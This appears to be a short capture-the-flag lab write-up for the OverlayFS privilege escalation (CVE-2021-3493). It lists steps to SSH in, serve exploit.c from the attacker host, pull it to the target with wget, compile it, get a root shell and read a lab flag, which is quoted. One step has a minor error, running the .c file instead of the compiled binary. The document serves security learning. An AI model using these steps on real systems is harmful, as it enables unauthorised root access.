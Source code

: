 ![](attachments/Overlayfs_credentials.png)

* SSHing to the machine 
````
ssh overlay@10.10.26.144 
````

* The exploit of the CVE-2021-3493 is available on this [website](https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/)
*  on our host machine from the directory where exploit.c is contained 

````
python3 -m http.server
````

* on the SSHed machine CDing to the /tmp which is writable

````
 wget http://ip:8000/exploit.c
````


````
chmod +rwx exploit.c
````

````
gcc -o exploit exploit.c
````

* ./exploit.c gives the rootshell 
* cat /root/flag.txt ---> thm{27aaa5865a52dcd4cb04c0e0a2d39404}